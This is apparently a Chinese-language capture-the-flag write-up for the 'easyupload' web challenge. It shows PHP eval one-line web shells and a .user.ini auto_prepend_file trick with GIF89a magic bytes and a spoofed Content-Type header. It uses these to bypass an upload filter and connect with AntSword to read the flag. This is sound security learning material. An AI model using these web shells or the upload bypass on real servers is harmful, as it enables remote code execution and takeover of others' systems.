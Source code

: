 # WEB-攻防世界easyupload
- 关键词 文件上传，命令执行

## 题目描述
![995ad16da922411a0063af65fd2c3869.png](../_resources/995ad16da922411a0063af65fd2c3869.png)

## 解题思路
根据题目和页面我们可以猜到这应该是一个利用文件上传漏洞,利用一句话木马来获取服务器上保存的flag
 - 附：php一句话木马
```php
<?php @eval($_REQUEST['a']); ?>
# 或者
<?=eval($_REQUEST['a']);?>
```
上传成功的话可以使用蚁剑连接

![3fde308613e1633c8578e6024d1a73d1.png](../_resources/3fde308613e1633c8578e6024d1a73d1.png)
新建一个txt文件并写入这句话，把后缀名改成jpg并上传。结果提示Your file looks wicked
![ace65b56474c1525e3359fbf9904edc4.png](../_resources/ace65b56474c1525e3359fbf9904edc4.png)

抓包改后缀，.php1~.php9、.htaccess均被过滤（.htaccess 文件是一个用于配置 Apache Web 服务器的配置文件。它通常位于网站根目录或特定目录中，用来为该目录及其子目录提供特定的配置指令）

此时查看wp，发现是使用user.ini的配置文件的漏洞
详见https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

## payload
1. 新建.user.ini文件，写入以下内容
```
GIF89a
auto_prepend_file=a.jpg
```
2. 上传该文件，burp抓包修改，将`Content-Type: application/octet-stream`修改为
`Content-Type: image/jpg`
![48fad5203c93311ea34f1b8066f15574.png](../_resources/48fad5203c93311ea34f1b8066f15574.png)
修改之后点击发送，返回结果为：
![3a93fd2aac2663f64ffad510a64fe75c.png](../_resources/3a93fd2aac2663f64ffad510a64fe75c.png)

3. 新建a.jpg，写入如下内容
```php
<?=eval($_REQUEST['a']);?>
```
![e51365fe5e13948e4dbd06fc3ea7cd06.png](../_resources/e51365fe5e13948e4dbd06fc3ea7cd06.png)

直接上传
![ef0a36fe5c391870a5a99a707192eae2.png](../_resources/ef0a36fe5c391870a5a99a707192eae2.png)
显示上传成功

4. 用蚁剑连接
![f19f78026f158ed56b512111ad091098.png](../_resources/f19f78026f158ed56b512111ad091098.png)
在根目录下找到flag，直接查看即可
![d184ab361eb3cee6fca29af522d83540.png](../_resources/d184ab361eb3cee6fca29af522d83540.png)



